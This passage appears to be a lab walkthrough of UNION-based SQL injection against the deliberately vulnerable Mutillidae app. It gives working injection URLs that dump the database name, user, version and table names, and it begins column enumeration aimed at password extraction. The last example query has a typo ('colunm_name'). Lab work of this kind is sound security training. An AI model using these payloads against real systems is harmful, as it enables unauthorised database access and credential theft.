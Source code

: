 
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/user-attachments/assets/4dc18748-159e-4c1b-99e9-fbdd73f94617)



As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/user-attachments/assets/ea3e650e-c7c5-4341-ad7a-57b2af28e14d)



Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.205.1/mutillidae/index.php?page=user-info.php&username=thaksha%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/750fe512-e6ce-4ede-ba81-0fe9ce6bab3f)






The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

(http://192.168.205.1/mutillidae/index.php?page=user-info.php&username=thaksha%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details)




![image](https://github.com/user-attachments/assets/9994a016-8060-49c4-9c29-d8f799b33315)








The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).
